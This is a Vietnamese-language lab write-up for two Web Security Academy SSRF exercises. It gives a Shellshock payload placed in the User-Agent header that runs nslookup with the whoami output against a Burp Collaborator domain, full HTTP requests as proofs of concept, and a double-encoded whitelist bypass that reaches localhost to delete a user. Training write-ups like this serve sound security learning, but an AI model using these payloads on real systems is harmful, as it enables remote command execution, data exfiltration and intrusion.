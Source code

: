## SSRF Expert Lab

### Lab: Blind SSRF with Shellshock exploitation

- Sử dụng `Burp Collaborator` + `shellshock`

    ```
    () { :; }; /bin/nslookup $(whoami).c8l36qt5b2ijpw0w9hz1956wcnie64ut.oastify.com
    ```

- Brute dải ip `192.168.0.X/24`, poll về `Burp Collaborator`

    - PoC

        ```
        GET /product?productId=1 HTTP/2
        Host: 0a4100a803d9d75d80374e1200ee002d.web-security-academy.net
        Cookie: session=7GkfQCYn4FAuKMTR2yNy7OLkOaopCQQU
        Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
        Sec-Ch-Ua-Mobile: ?0
        Sec-Ch-Ua-Platform: "Windows"
        Accept-Language: en-US,en;q=0.9
        Upgrade-Insecure-Requests: 1
        User-Agent: () { :; }; /bin/nslookup $(whoami).c8l36qt5b2ijpw0w9hz1956wcnie64ut.oastify.com
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
        Sec-Fetch-Site: same-origin
        Sec-Fetch-Mode: navigate
        Sec-Fetch-User: ?1
        Sec-Fetch-Dest: document
        Referer: http://192.168.0.1:8080/
        Accept-Encoding: gzip, deflate, br
        Priority: u=0, i
        ```


### Lab: SSRF with whitelist-based input filter

- Thử payload SSRF cơ bản ở phần check stockapi nhưng bị chặn

    ```text
    External stock check host must be stock.weliketoshop.net
    ```

    - Thử bypass bằng `#`, encode 2 lần để thành `%2523`


- PoC
    ```
    POST /product/stock HTTP/2
    Host: 0a7e000f0485708680176cd9008f0081.web-security-academy.net
    Cookie: session=koNwfKAKsd1Ys3UrpUjZf0WdTR3LeEtS
    Content-Length: 54
    Sec-Ch-Ua-Platform: "Windows"
    Accept-Language: en-US,en;q=0.9
    Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
    Content-Type: application/x-www-form-urlencoded
    Sec-Ch-Ua-Mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
    Accept: */*
    Origin: https://0a7e000f0485708680176cd9008f0081.web-security-academy.net
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://0a7e000f0485708680176cd9008f0081.web-security-academy.net/product?productId=1
    Accept-Encoding: gzip, deflate, br
    Priority: u=1, i

    stockApi=http://localhost%2523@stock.weliketoshop.net/
    ```

    ![alt text](/SSRF/images/image.png)

    - Xóa carlos

    ![alt text](/SSRF/images/image-1.png)